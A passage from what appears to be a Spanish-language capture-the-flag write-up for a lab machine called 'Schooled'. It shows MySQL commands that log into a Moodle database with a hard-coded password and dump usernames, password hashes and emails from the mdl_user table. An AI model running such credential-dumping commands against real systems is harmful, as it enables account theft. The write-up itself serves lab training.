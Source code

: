 ```bash
mysql -umoodle -pPlaybookMaster2020 -e 'show tables' moodle
```

![showtables](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/showtables.PNG)

```bash
mysql -umoodle -pPlaybookMaster2020 -e 'describe mdl_user' moodle
```

![columns](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/columns.PNG)

Aqui las columnas de interes serian username | password | email


```bash
mysql -umoodle -pPlaybookMaster2020 -e 'select username,password,email from mdl_user' moodle
```
